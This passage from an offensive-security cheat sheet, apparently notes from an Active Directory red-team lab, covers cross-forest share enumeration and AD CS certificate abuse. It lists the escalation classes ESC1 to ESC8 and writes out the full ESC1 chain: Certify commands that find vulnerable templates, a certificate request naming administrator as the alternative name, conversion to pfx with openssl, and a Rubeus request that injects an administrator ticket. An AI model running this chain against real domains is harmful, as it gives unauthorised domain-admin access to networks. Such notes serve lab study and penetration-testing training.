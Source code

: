 ```powershell
# Profit (only resources specifially shared to the source forest: access to C$ is not permitted)
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp

# The question is now: how to enumerate resources?
# - enmeration from a non privileged user on the target forest is always possible
# - enumerate machines in the target forest
# - request a TGS for CIFS for each one machine
# - use "net view" command for each machine

# DCSync is not possible, unless there is a non privileged user that has Replication rights

```

### Certificates - AD CS
```powershell
# There are multiple attacks:
# - stealing: certificate with private keys export with various tecniques (API, PKinit, files, ...)
# - persistence forging certificates, adding rogue CA, modifying existing CAs
# - Escalation: multiple ways to abuse misconfigurations

# Escalation techniques:
# - ESC1: security settings permits to any user to request certifitaces
# - ESC2: any purpose or no EKU 
# - ESC3: request an enroll agent certificate and use it to request cert on behalf of ANY user
# - ESC4: overly permissive ACLs on Templates
# - ESC5: poor access control on CA server
# - ESC6: EDITF_ATTRIBUTESUBJECTALTNAME2 setting on CA (permits to add a SAN to escalate)
# - ESC7: Poor access control on roles on CA ("CA administrator" or "Certificate Manger)
# - ESC8: NTLM relay to HTTP enrollmnet endpoints

# Tools:
# - Certify
# - certipy

# Enumerating  AD CS 
Certify.exe cas

# Enumerating  templates
Certify.exe find

# Finding vulnerable templates
Certify.exe find /vulnerable

### ESC1 abuse
# In the case a template has the ENROLLEE_SUPPLIES_SUBJECT flag set and we can enroll it, we can abuse ESC1
# Enumerating template for ESC1:
.\Certify.exe find /enrolleeSuppliesSubject

# request a certificate adding the Alternative name of Administrator
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator

# Cut and paste the output into a esc1.pem file
# Then use openssl tool to convert to pfx (supply a password to encrypt the private key)
openssl pkcs12 -in esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1.pfx

# Then request a TGT as administrator supplying the ESC6.pfx as authentication (/password is the password used to convert from pem to pfx)
Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:SecretPass@123 /ptt

### ESC6 abuse
```